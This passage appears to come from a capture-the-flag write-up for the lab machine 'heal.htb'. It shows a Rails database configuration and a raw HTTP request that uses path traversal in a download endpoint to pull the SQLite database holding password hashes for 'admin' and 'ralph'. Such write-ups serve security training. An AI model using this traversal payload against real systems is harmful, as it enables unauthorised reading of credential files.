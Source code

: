 ```c
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3

```

![](images/2024-12-14_21-27_lfi_ruby_database_configuration.png)

With the knowledge of the exact `filename` and `location` we pulled the `content` through the `LFI` and got the `hashes` of `admin` and `ralph`.

```c
GET /download?filename=../../storage/development.sqlite3  HTTP/1.1
Host: api.heal.htb
Accept: */*
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Origin: http://heal.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ


```

